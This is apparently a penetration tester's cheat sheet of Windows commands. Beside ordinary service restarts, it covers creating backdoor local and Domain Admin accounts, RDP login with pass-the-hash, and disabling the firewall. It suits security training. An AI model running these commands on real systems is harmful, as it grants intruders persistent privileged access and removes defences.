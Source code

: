 #### Useful Cmd Commands
Restarting a Windows service methods:
```cmd
sc query Apache # check service status

sc stop Apache && sc start Apache
net stop Apache && net start Apache
wmic service Apache call startservice
shutdown /r /t 0 # last resort, reboot, or just wait for user to reboot
```

Preparation of adding a non-privileged user and allowing remote desktop connection:
```cmd
net user bob bob /add
net localgroup "Remote Desktop Users" bob /add
# runas /user:bob cmd.exe # to use a shell instead of remote connection
```

Adding user to local administrators group:
```cmd
net localgroup administrators bob /add
```

Creating a Domain Admin user and login to other servers within the domain. By default, Domain Admins group is part of every server's local Administrator group within the domain.
```cmd
net user testing 1qwer$#@! /add /domain
net group "Domain Admins" testing /add /domain
# rdesktop -u '[domain]\testing' -p '1qwer$#@!' [ip of server part of domain] # on kali
# Start > Right-Click Command Prompt > Run as Administrator # Even as a domain admin, you'll have to manually open cmd as admin because of UAC. (https://blogs.msdn.microsoft.com/patricka/2010/05/13/if-im-an-administrator-why-do-i-get-access-denied/)
```

Connecting using RDP (TCP Port 3389) on Kali. Do note, if password is wrong, `xfreerdp` will return error code `0x20009`, note if password is correct however server disables local logins, `xfreerdp` will open the session, but within the session, it'll say "The user name or password is incorrect". Meaning that your passwords may be correct, even if RDP isn't allowed.
```sh
rdesktop -u Administrator -p abc123 192.168.1.23
rdesktop -u 'thinc\testing' -p '1qwer$#@!' 192.168.1.23 # where thinc is the domain. if thinc doesn't work, try thinc.local
xfreerdp /u:testing /d:thinc /p:'1qwer$#@!' /v:192.168.1.23
xfreerdp /u:testing /d:thinc /pth:31d6cfe0d16ae931b73c59d7e0c089c0 /v:192.168.1.23 # PTH method
```

Checking firewall rules:
```cmd
# Deprecated firewall command
netsh firewall set opmode mode=disable exceptions=disable # disable firewall, requires priv

# Newer advfirewall
netsh advfirewall set currentprofile state off # disable firewall, requires priv
netsh advfirewall firewall show rule name=all | find "Rule Name:" | find "NameLookingFor" # search for a rule
```

